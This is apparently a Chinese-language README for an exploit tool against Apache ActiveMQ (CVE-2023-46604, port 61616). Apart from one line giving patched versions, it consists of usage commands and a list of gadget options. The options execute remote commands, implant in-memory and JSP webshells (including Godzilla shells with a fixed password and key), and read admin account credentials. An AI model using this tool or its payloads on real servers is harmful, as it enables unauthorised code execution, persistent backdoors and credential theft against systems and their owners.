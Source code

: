 ``
ActiveMQ CVE-2023-46604 61616端口利用工具

安全版本>= 5.18.3/5.17.6/5.16.7

java -jar ActiveMQExp.jar rhost=rhost lhost=lhost gadget=gadget cmd=cmd

例如

java -jar ActiveMQExp.jar rhost=127.0.0.1 lhost=127.0.0.1 gadget=cb19 cmd=whoami

默认 rport=61616 ldapport=1389 httpport=9998

目前支持的gadget如下

gadget=wincmd cmd=whoami //无回显

gadget=linuxcmd cmd=whoami //无回显

gadget=spelcmd cmd=whoami //无回显

gadget=spelecho cmd=whoami //有回显 from Hutt0n0

gadget=spelclass cmd=memcmd //内存马 from Hutt0n0 http://rhost:8161/admin/memshell?cmd=whoami

gadget=spelclass cmd=memgodzilla //内存马 http://rhost:8161/admin/memgodzilla pass:Tas9er key:B7VO2sAamj

gadget=spelclass cmd=readfile //读8186账户密码并且请求一次8186/admin/

gadget=spelclass cmd=whoami //有回显

gadget=spelclass cmd=cmdjsp // http://rhost:8161/api/cmd.jsp

gadget=spelclass cmd=godzillajsp // http://rhost:8161/api/godzillajsp pass:Tas9er key:B7VO2sAamj

gadget=urldns cmd=xxx.dnslog.cn

gadget=cb18 cmd=whoami //有回显

gadget=cb18 cmd=cmdjsp

gadget=cb18 cmd=godzillajsp

gadget=cb18 cmd=readfile

gadget=cb18 cmd=memgodzilla

gadget=cb19 cmd=whoami //有回显

gadget=cb19 cmd=cmdjsp

gadget=cb19 cmd=godzillajsp

gadget=cb19 cmd=readfile

gadget=cb19 cmd=memgodzilla

``
